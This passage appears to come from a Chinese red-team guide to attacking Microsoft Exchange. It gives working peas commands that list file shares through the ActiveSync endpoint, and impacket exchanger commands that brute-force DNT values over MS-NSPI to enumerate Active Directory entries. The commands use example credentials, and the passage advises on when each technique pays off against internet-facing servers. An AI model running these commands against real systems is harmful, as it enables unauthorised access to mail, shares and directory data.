 **相关工具**
- [b0bac/GetMail](https://github.com/b0bac/GetMail) - 利用NTLM Hash读取Exchange邮件

---

### 搜索共享文件

老版本 Exchange 支持查看域内文件共享，且支持移动端通过 `/Microsoft-Server-ActiveSync` 远程访问网络内部的共享文件。在 Exchange 2010 及其后续版本中，删除了 Outlook 的文件共享权限，但通过 `/Microsoft-Server-ActiveSync` 接口依然可以。

```bash
# UNC 路径仅支持主机名，不支持 IP 和 FQDN
python2 -m peas 192.168.123.123
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --check
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --list-unc="\\WIN2012-DC1"
```

在实战中，如果已经拿下域机器了，这个手法的使用意义不大。但是如果在域外，或者是直接攻击互联网上的 Exchange，这种手法不失为一种收集共享文件的方法，配合下面的方法收集域内所有主机名再查询共享文件效果更佳。

---

### 搜索域信息

/rpc 接口支持各种远程调用，其中包括 `[MS-OXNSPI]` 协议，该协议用于客户端从 Exchange 服务器获取 OAB 数据。Exchange 本身并不存储地址簿数据，而是通过 `[MS-NSPI]` 协议与域控通信，访问 Active Directory 来获取地址簿数据。

`[MS-OXNSPI]` 和 `[MS-NSPI]` 协议都是用于获取地址簿数据的，区别是前者用于客户端与 Exchange 通信，后者用于 Exchange 与域控通信。因此，`[MS-NSPI]` 也是继 LDAP 和 `[MS-DRSR]`（也称为 DcSync 和 DRSUAPI）之后第三个访问 Active Directory 的网络协议。

遗憾的是，`[MS-OXNSPI]` 和 `[MS-NSPI]` 并不能获取全部的 Active Directory 属性，而是 X.500 空间集的属性。而且，根据微软文档描述，这两个协议仅用于获取 AD（Active Directory） 中的地址簿数据，而不能访问整个 AD 条目。不过研究人员发现，可以通过爆破 DNT（Distinguished Name Tags）的方式遍历全部 AD 条目，但是依然无法获取额外的 AD 属性。

```bash
# 需要修改 exchanger.py，否则保存的时候可能会报解码错误。
class Exchanger:
    ......
    ......
    def set_output_file(self, filename):
        self.__outputFileName = filename
        # self.__outputFd = open(self.__outputFileName, 'w+')
        self.__outputFd = open(self.__outputFileName, 'w+', encoding="utf-8") # 添加 encoding="utf-8"

# impacket
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.60.116 nspi dnt-lookup -start-dnt 0 -stop-dnt 100000 -lookup-type FULL -output-file dnt.txt
```

在实战中，如果已经在域内了，这个手法的使用意义不大，因为 `[MS-NSPI]` 返回的 X.500 属性不像 AD 中的那么全，不能等同于 LDAP。但是如果在域外或者是直接攻击互联网上的 Exchange，可以搜索 objectSid 来发现域内机器账户，配合 /Microsoft-Server-ActiveSync 遍历主机名查询共享文件。

---

### 管理 Exchange
